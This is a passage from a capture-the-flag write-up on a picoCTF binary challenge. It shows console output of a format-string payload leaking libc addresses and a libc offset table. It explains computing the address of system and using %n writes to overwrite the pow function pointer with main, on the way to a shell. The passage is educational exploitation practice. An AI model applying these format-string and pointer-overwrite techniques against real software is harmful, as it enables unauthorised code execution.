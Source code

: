 ```console
    b'1___%43$s.%44$s.'
    B:
    00000000  31 5f 5f 5f  5f 5f 5f 5f  18 10 60 00  00 00 00 00  │1___│____│··`·│····│
    00000010  58 10 60 00  00 00 00 00                            │X·`·│····│
    00000018
[*] Received:
    00000000  a0 55 15 3a  50 7f 2e 30  57 11 3a 50  7f 2e        │·U·:│P·.0│W·:P│·.│
    0000000e
[*] puts() runtime address: 0x7f503a1555a0
[*] atoi() runtime address: 0x7f503a115730
[*] Closed connection to mars.picoctf.net port 31929
```

These runtime addresses give us two things. First, they help us figure out the LibC used for the challenge via [the libc database](https://github.com/niklasb/libc-database). (Note that the challenge also included a docker image which could be used for the same purpose). But more importantly, they allow us to calculate the runtime base address of LibC.

The LibC database gives us the following offsets:


|Symbol     |Offset   |Difference|
|-----------|---------|----------|
|atoi       |0x047730 |0x0       |
|system     |0x055410 |0xdce0    |
|printf     |0x064e10 |0x1d6e0   |
|snprintf   |0x064ee0 |0x1d7b0   |
|puts       |0x0875a0 |0x3fe70   |
|setbuf     |0x08ec50 |0x47520   |
|open       |0x110e50 |0xc9720   |
|read       |0x111130 |0xc9a00   |
|write      |0x1111d0 |0xc9aa0   |
|str_bin_sh |0x1b75aa |0x16fe7a  |

What's important here is the offset of `system`: Eventually we'll have to override some function pointer with `system` to pop-up a shell. To do that, we take the runtime base offset of LibC (which is the runtime offset of `puts` minus the build-time LibC offset of `puts`), add it to the build-time LibC offset of `system` and get the runtime offset of `system`.

However, in order to do that, we will first need a way to overcome the fact that our format string vulnerability is a one-shot. We can leak some runtime addresses in order to calculate the base offset of LibC, but once we do that - the program arrives to the end and we can't use this information in any way. So, what we want to do is use the same vulnerability to leak runtime offsets **and** override some function pointer with the address of `main`, so that we can reuse the vulnerability.

For that, we use the `%n` format specifier that allows us to write to a given address. Specifically, it writes to the address we provide the number of characters outputted by `printf` up to that moment, and by controlling the number of characters we print, we can write any value we want to. We will overwrite `pow` with the address of `main`:
